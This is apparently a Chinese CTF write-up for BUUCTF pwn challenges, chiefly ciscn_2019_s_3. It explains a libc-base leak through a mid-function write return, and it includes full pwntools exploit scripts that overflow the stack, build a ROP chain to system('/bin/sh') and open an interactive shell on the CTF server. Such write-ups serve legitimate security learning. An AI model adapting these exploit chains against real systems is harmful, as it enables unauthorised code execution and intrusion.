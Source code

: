 ```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27850)
io.sendlineafter(b'Input your message:\n', cyclic(0x88) + p64(0x400620))
io.interactive()
```
# buu030-ciscn_2019_s_3
这道题一看汇编，明摆着是考我们系统调用。其中有mov rax, 3bh，3b就是execve的系统调用号。之后需要在rdi中传入'/bin/sh'的地址，但是原程序中并没有这个字符串。

目前有一个主要的问题：如果要自己构造'/bin/sh'或者是查找libc，如何获取这个字符串的地址？通过ret2csu我们可以很容易地将任意值pop到rdi中，所以关键就在于如何获取字符串地址。如果这个字符串自己构造，栈上的地址一般都不容易获取到。如果要查找libc，那么首先要获取libc基址。前面已经提到我们无法直接通过sys_write打印，但同时我们也不要忘记，返回地址不一定要是函数的开头。如果在读写函数返回后编写gadget，直接返回到写30字节的地方，那么我们就能够直接进行打印，此时write打印出的数据中有部分是我们没有修改的，且返回之后我们能够将rsp抬高8字节获取到更加靠前的栈区内容，也就有机会能够获取到libc的基址。

![](https://img-blog.csdnimg.cn/47bedf4bdae240d0824554966960e1ea.png)
上图中libc的基址正好在打印地址之后0x30的位置，所以还需要再返回两次，与第28题的方法相同。这种方法笔者称之为碰瓷流，与这道题的出题人本意不符。

exp：（调用system('/bin/sh')）
```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28675)

write = 0x400503
read_write = 0x4004ed
poprdi_ret = 0x4005a3

payload = cyclic(0x10)
payload += p64(write)	# We use write twice to make rsp go up to reach the '__libc_start_main'
payload += p64(write)
payload += p64(read_write)

io.sendline(payload)

libc_start_main = u64(io.recv()[-8:]) - 231
print(hex(libc_start_main))
libc = LibcSearcher('__libc_start_main', libc_start_main)
base = libc_start_main - libc.dump('__libc_start_main')

sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(0x10)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(sys)

io.sendline(payload)

io.interactive()
```
